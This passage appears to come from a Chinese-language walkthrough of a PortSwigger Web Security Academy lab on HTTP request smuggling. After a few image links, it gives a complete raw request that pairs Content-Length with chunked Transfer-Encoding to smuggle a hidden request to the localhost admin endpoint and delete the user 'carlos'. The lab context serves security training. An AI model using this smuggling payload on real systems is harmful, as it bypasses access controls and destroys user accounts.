 [![](assets/1704418275-61c58da310921c1dbc8030973a4b0cb4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155228-0ab0e922-aa0d-1.png)  
[![](assets/1704418275-1bc232d23a37194fccce835159564f56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155241-12ae5498-aa0d-1.png)  
现在我们可以访问管理面板了，随后我们直接调用接口来删除carlos：

```plain
POST / HTTP/1.1
Host: 0ae3000c04275ff48012fd73008e00b8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```
